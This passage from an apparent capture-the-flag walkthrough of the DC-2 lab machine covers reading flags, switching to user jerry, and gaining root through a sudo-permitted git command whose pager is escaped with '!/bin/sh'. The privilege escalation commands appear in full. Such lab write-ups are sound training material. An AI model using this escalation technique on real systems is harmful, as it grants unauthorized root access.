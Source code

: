 Let's add `/bin` and `/usr/bin` to the path so we can use more commands, `cat` our flag file, and then switch user to jerry per the flag's hint.
```
$ export PATH=$PATH:/bin:/usr/bin
$ cat flag3.txt	
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
$ su jerry
Password: #adipiscing
jerry@DC-2:/home/tom$ cd ~
jerry@DC-2:~$ ls
flag4.txt
jerry@DC-2:~$ cat flag4.txt 
Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```

Flag 4 is found, and we are given a hint to use `git`. And, per our output to `sudo -l`, it was a good hint.

```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

## Privilege Escalation

Since we are able to run `/usr/bin/git` as root, we can do a privilege escalation. Whenever you find a command you can run as root, check [gtfobins.github.io](gtfobins.github.io) if you don't know how to take advantage.

`sudo git -p help config` displays the `git` man page using `less` which we can escape from using `!/bin/sh`.

```
!/bin/sh
# whoami
root
# cd ~
# ls
final-flag.txt
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

